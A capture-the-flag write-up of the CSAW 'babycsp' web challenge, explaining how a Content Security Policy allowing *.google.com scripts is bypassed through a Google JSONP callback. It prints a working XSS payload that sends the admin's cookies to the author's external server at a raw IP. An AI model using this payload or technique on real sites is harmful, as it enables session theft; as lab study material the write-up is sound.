


# babycsp

- Category: web
- Points: 50

## Challenge

### Description
> I heard CSP is all the rage now. It's supposed to fix all the XSS, kill all of the confused deputies, and cure cancer? The flag is in the cookies 

### Files

- Website: `http://web.chal.csaw.io:1000/`

### Website

We are given the following page: 




## Solution

Given the name of the challenge and the website, we know this challenge is a circumvention of CSP (Content Security Policy) to run XSS to steal the admin's cookies. As I haven't heard of CSP or HttpOnly cookies/cookie stealing before this challenge, it was a lot of fun and definitely a learning experience.

> CSP prevents loading JavaScript and other resources from domains that aren't specified. This means it's tough to get XSS or load malicious scripts.

When you input `<script>alert(1)</script>` or other XSS payloads, you get the following alert in the JavaScript console.



> The developers tools console is very useful, especially for challenges like this.

So, the CSP is as follows:

```
default-src 'self'; script-src 'self' *.google.com; connect-src *
```

This looks 'secure' on paper, however evaluating it with `https://csp-evaluator.withgoogle.com/` shows us the following:


The thing that stands out the most here is the possibility of _JSONP endpoints_ that would allow us to bypass CSP.

Researching for a bit gives us `https://github.com/zigoo0/JSONBee`, which a bunch of payloads that abuse this. A bit of modification of a payload gives us `<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`, where we can input malicious JavaScript in the callback field.

Since the cookies are HttpOnly, we can't write to a file or anything like that, we have to set up a public facing server (I used AWS Free Tier) and use the "Report to Admin" button to steal his cookie.


>  HttpOnly cookies make XSS cookie stealing more difficult by not allowing client-side scripts to print the cookies.

This XSS payload was functional in redirecting the page and stealing the cookies of the admin:

```
<script src='https://accounts.google.com/o/oauth2/revoke?callback=
window.location="http://13.58.84.168/"["concat"](document.cookie);
'></script>
```

So, running this payload and clicking `Report to admin`, we check our `access_log` for `httpd` on our EC2 instance and find the flag:


### Flag

`flag{csp_will_solve_EVERYTHING}`